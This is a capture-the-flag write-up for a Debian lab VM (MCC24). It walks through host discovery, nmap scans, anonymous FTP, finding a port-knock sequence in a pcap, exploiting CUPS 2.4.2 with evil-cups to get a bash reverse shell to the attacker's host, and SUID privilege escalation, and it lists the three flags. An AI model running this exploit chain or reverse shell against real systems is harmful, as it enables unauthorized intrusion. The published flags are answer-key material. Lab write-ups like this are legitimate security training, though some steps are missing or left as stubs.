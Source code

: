 ### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 

![[MCC24-2024-11-29-15-18-03.png]]

### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 

![[Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51.png]]

### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.
![[pcap-analysis.png]]
From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.

![[pcap-analysis-2.png]]

After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```

![[screenshot.png]]


### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: link booktricks

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```

![[image.webp]]

Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s`

### Step 12: Use tools suid3num to enumerate 

![[image.png]]
We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 

![[image (1).png]]

Now, we have found the second flag.

**2nd Flag:** MCC24{4bus1ng_su1d}

### Step 13: Found last flag with alexander's privilege at home directory 

![[image (1).webp]]

**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


### Rabbit Hole Faced

